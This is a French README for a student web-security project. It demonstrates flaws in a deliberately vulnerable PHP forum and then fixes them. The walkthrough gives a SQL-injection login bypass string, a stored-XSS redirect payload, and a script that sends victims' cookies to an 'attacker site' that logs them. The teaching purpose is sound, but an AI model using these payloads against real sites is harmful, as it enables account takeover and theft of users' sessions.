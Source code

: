 # Projet-web-secu
**Ecole**: IMT Atlantique.

Dans le cadre de ce projet, nous sommes partie d’un site web que j’ai développée en PHP sur laquelle j’ai exploré les possibles failles qu’elle pourrait contenir.

L’application est un forum de discussion informatique. qui offre la possibilité de s’authentifier, de soumettre des sujets et desmessages.

**Outils**: PHP, HTML, CSS, MySQL, PHPMYADMIN

**Prérequis:**

   - installer [WampServer](https://www.wampserver.com/)
   - mettre tous les 3 répertoires (siteattaquant, myforum et myforumsecu) à la racine du répertoire www de wamp (e.g sur windows: `C:\wamp64\www`)
   - importer la base de données `myforum.sql` dans phpmyadmin. nom de la BDD: `myforum`
## Mise en évidence d’une faille d’injection SQL

Pour contribuer au forum c’est-à-dire répondre créer un sujet, ecrire un message, l’on a besoin de se connecter avec un pseudo et un mot de mot de passe. 
Ici nous verons que même un utilisateur qui n’a pas de compte peut se connecter fraduleusement et causer des degâts  avec de l’injection SQL dans la page de login.

Dans la page de connexion nous rentrons le pseudo d’un utilisateur existant `toto` par exemple et unpassword qui n’est pas celle de l’utilisateur toto: `" or ""="` au lieu de `toto`
et on vois que nous sommes connectés comme étant l’utilisateur **toto**. Ce qui nous permet de créer des sujets en tant que utilisateur **toto**.

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/1.png)

## Solution

Dans la version sécurisé du site (http://localhost/myforumsecu) nous avons utliser les réquêtes préparées dans le code qui permet de se connecter (`loger.php`) pour palier ce problème.
l’ancienne ligne:
`$result =$id_con->query('SELECT * FROM users WHERE id_user="'.$pseudo.'" AND passwd="'.$pass.'" ') ;`
devient:

`$result = $id_con->prepare("SELECT * FROM users where id_user = :pseudo AND passwd = :pass");`
`$result -> execute(array('pseudo' => $pseudo, 'pass' => $pass));`

## Mise en évidence de la faille XSS

Dans la version non sécurisée du site (http://localhost/myforum) mettons dans le champs de commentaire le message `<u>hello attaquant</u>`

On constate que la mise en forme html est faite. Le plus gros problème est que cette faille est persistante, car inscrite dans la base de données.

Ayant connaissance de cette faille, l'attaquant pourrait casser la structure du site. Comme nous le montrerons ici en injectant du code javascript faisant une redirection vers le site google.com.

`<script>document.location="https://www.google.com"</script>`

On constate qu’à chaque ouverture du sujet contenant le code injecté il y a une redirection automatique vers google.com. Ce qui est inquiétant c’est que cela reste permanent.

## Exploitation de la faille

Essayons d’exploiter cette faille afin e voler des cookies qui dans un cas précis pourrait permettre à un attaquant de s'attribuer des rôles plus élevés que prévu.

Ici nous allons écrire un code PHP (https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant/index.php) permettant de récupérer les cookies des utilisateurs.
Ce code peut se trouver sur un autre serveur distant (celui de l’attaquant par exemple https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant ). Dans ce code on récupère les cookies, puis on les stocke et enfin, on redirige l’utilisateur vers la page d’accueil comme si rien ne s’était passé. Pour notre exemple le site a décidé de sauvegarder les mots de passe et login pour permettre de se souvenir de l’utilisateur lors d’une nouvelle connexion.

Maintenant l’attaquant injecte un code javascript dans un message ou dans un sujet qui redirige vers le code PHP malveillant.

`<script>document.location="http://localhost/siteattaquant?cookie="+document.cookie;</script>`

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/2.png)

Maintenant l’attaquant a réussi son coup et s’attend à recoter le buttin. Si un l’utilisateur se connect en accèptant que le site se souvienne de lui, ou pour d’autres cookies par exemple, l’attaquant récupère alors toutes ces données sensibles dans un repertoire (`C:\wamp64\www\siteAttaquant\stolen_data.txt`) lors de sa visite sur la page contenant le code injecté.

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/3.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/4.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/5.png)

## Solution

 Dans la version sécurisée du site (http://localhost/myforumsecu) nous avons

  - protégé les cookies en ajoutant l'attribut ***HttpOnly***
  - utilisé la méthode ***htmlspecialchars*** avec le flag *ENT_IGNORE* pour remplacer tous les caractères HTML. (https://www.php.net/manual/fr/function.htmlspecialchars.php)




